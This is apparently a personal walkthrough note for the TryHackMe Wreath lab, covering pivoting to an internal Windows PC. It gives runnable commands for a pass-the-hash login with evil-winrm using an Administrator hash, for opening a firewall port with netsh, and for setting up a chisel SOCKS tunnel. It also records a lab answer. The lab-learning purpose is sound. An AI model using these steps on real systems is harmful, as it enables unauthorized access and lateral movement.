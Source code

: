We found two ports open in the previous task. RDP won't be of much use to us without credentials (or at least a hash, although Pass-the-Hash attacks are often restricted through RDP anyway); however, the webserver is worth looking into. Wreath told us that he worked on his website using a local environment on his own PC, so this bleeding-edge version may contain some vulnerabilities that we could use to exploit the target. Before we can do that, however, we must figure out how to access the development webserver on Wreath's PC from our attacking machine.

We have two immediate options for this: *Chisel*, and *Plink*.

If you followed the recommended route of using sshuttle to pivot from the webserver then a _chisel forward proxy_ is recommended here as it will be relatively easy to connect to through the sshuttle connection without requiring a relay -- look back at the Chisel task if you need help with this!

When using this option you will need to open up a port in the Windows firewall to allow the forward connection to be made. The syntax for opening a port using `netsh` looks something like this:  
`netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT`

Please use the `name-USERNAME` naming convention -- for example:  
`netsh advfirewall firewall add rule name="Chisel-MuirlandOracle" dir=in action=allow protocol=tcp localport=47000`  
![Demonstration of the above firewall rule through WinRM](https://assets.tryhackme.com/additional/wreath-network/31589c0e89b3.png)

Whether you choose the recommended option or not, get a pivot up and running!


![[AccesS to PC.svg]]

---

# Your job

1. For pivoting, we can use chisel. Run evil-winrm . #Attacking_Machine 
```
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.84.150 -s /home/kali/Tryhackme/Wreath
```

1. Open up a port for pivoting. #Evil-WinRM_shell 
```
netsh advfirewall firewall add rule name="Chisel-exec2" dir=in action=allow protocol=tcp localport=44444
```

1. Download   [chisel_1.7.7_windows_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz)  and [chisel_1.7.7_linux_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz) #Attacking_Machine 

2. Decompress the .gz file. #Attacking_Machine 

3. Upload the chisel.exe file in #Evil-WinRM_shell  session.
```
upload chisel.exe
```

4. Setup chisel server forward socks proxy on #Evil-WinRM_shell 
```
./chisel.exe server -p 44444 --socks5
```

5. Install chisel on Kali Linux. #Attacking_Machine 
	- Download `chisel_1.10.1_linux_amd64.deb` and decompress it.
	- Copy `chisel` file to `/usr/bin`.


6. Run chisel client. #Attacking_Machine 
```
chisel client 10.200.84.150:44444 9090:socks
```

Now the socks proxy is opened on port 9090 of our port

7. Setup FoxyProxy: Ensure you setup a `SOCKS5` proxy with *foxyproxy*:
	 ![[Pivoting-20250126190740769.webp]]

8. Navigate to http://10.200.X.100.
	 ![[Pivoting-20250126190906256.webp]]

9. Install wappalyzer extension on your browers and see the results.
	![[Pivoting-20250126191308575.webp]]

Access the website in your web browser (using FoxyProxy if you used the recommended forward proxy, or directly if you used a port forward).

> [!Question]
>Using the Wappalyzer browser extension ([Firefox](https://addons.mozilla.org/en-GB/firefox/addon/wappalyzer/) | [Chrome](https://chrome.google.com/webstore/detail/wappalyzer/gppongmhjkpfnbhagpmjfkannfbllamg?hl=en)) or an alternative method, identify the server-side Programming language (including the version number) used on the website.
>`PHP 7.4.11`


**Next step: ** [[The Wonders of Git]]
